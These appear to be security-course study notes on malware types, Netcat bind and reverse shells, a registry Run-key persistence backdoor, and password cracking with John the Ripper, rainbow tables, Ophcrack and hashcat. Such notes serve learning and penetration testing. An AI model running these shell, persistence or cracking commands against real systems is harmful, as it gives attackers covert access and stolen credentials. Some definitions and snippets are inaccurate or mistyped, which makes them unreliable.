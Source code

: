 #### Malware
* Malicious Software that allows user to harm other system/user.
* Impact: Can cause DOS, Spy Users, Gain Unauthorized Access.

|Types|
|---|
|Virus|
|Trojan|
|Rootkit| 
|Bootkit|
|Adware|
|Spyware|
|Greyware|
|Dialer|
|Keylogger|
|Botnet|
|Ransomware|
|Worm|
|Data Stealing Malware|

#### Virus 
> Small piece of code that affects system, may execute every time when opeing the code, may replicate itself.

#### Trojan Horse
> Malware that can be embedded in harmless files like pdfs, Microsoft Office Files,etc. eg. Backdoor that can allow malicious user to gain shell on remote machine.Firewall can be used by network adminstrator to restrict connections from internet to internal machines.

#### Rootkit
> Malware that allows attacker to subert OS functioning.Attacker can maintain privileged access to victim machine bypassing firewalls.

#### Adware 
> Malcious software program that shows annoying ads to victim.

#### Spyware
> SOftware that allows attacker to monitor victims activities.Collects information like visited websites, collects password, etc.

#### Grayware
> Mutated malware

#### Keylogger
> Tracks users keystrokes, password and sends to attacker.Can be used in penetration tests.

|Keyloggers|Hardware Keylogger(Pendrive)|Rootkit Keylogger(more shealthy,invisible, works at kernel level hijacking OS APIs)|
|---|---|---|

![Screenshot at 2022-12-25 10-49-08](https://user-images.githubusercontent.com/85208639/209457618-4d5c4dd3-b815-4fbd-bc4f-fe2852fb2709.png)

#### Botnets
> Small Software programs installed on mass computers. Consist of C&C Server aand can be instructed to perform certain task simultaneously.

#### Ransomware
> Software that encrypts victims files with secret key.

#### Data Stealing Software
> Malicious software program capable of stealing most sensitive data.

#### Backdoor With Netcat

```
ncat.exe -l -p 5555 -e cmd.exe >> In victims Machine

nc 192.168.10.102 5555

```

#### Reverse Connection With Netcat

> Victim is on internal network and attacker wants to connect to it.

```
nc -lvp 5555  >> Attacker listens on port 5555
nc.exe -e cmd.exe 192.168.0.1 5555


```

#### Creating Persistent Backdoor With Netcat

* Attacker needs to edit the victims registry so even when victim closes his system upon reboot attacker will be able to get a shell.
```
nc -l -v -p 5555 >> In attackers machine
Open "regedit" in victims machine and navigate to "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run"  and add new registry.
```
![Screenshot at 2022-12-25 13-04-04](https://user-images.githubusercontent.com/85208639/209460152-2b8f0ad9-177d-4f3e-8ff7-a91606ae3f93.png)


![Screenshot at 2022-12-25 13-05-33](https://user-images.githubusercontent.com/85208639/209460287-434fc945-ac92-4dc4-8a47-4bc57df29c0e.png)

#### Session Management With Metasploit 
> Since we have already obtained shell previously we can use metasploit to get more features.

#### Convert Reverse Shell to Meterpreter Shell
```
use multi/hander
set LHOST, LPORT on which you will listen and run
```

#### Password Attacks

##### Password Cracking
>Process of recoveing plaintext password from hash. Here attacker tries to guess password, hashes it and then compares the result against the password file.

##### Techniques
* Bruteforce Attack (Takes heck long time but yeilds better result)
* Dictionary Attack (Faster)

##### John the Ripper
###### M4ng1ing Rules with john the ripper
```
john -wordlist=file -rules <file to crack>
```

#### Rainbow Tables:

Password Cracking with rtgen
#### Rainbow Table Creation
```
sudo rtgen md5 loweralpha 1 3 0 1000 1000 0

echo "bug" | md5sum
> ae0e4bdad7b5f67141743366026d2ea5

rcrack md5_loweralpha#1-3_0_1000x1000_0.rt -h ae0e4bdad7b5f67141743366026d2ea5 >> hash will be cracked.

```
> If salt is used during hashing then rainbow table will be useless.

#### Ophcrack
> Ophcrack is a Windows password cracking tool used to crack NT and NTLM hashes.

* First download rainbow tables and download transmission.
* Load hashes and Click on Crack.

> Resource: https://ophcrack.sourceforge.io/ https://ophcrack.sourceforge.io/tables.php

#### Custom Rules in Hashcat (Useful During CTFs)

##### Resource: https://hashcat.net/wiki/doku.php?id=rule_based_attack
```
hashcat -m mode example.hash exaple.dict -r custom.rule
```

##### Hashcat Mask Attack
>Quicker than pure bruteforce attack .
> Resource: https://hashcat.net/wiki/doku.php?id=mask_attack
```
hashcat -m 0 -a 3 hash ?1?1?1?1?1?1?1?1?a
```
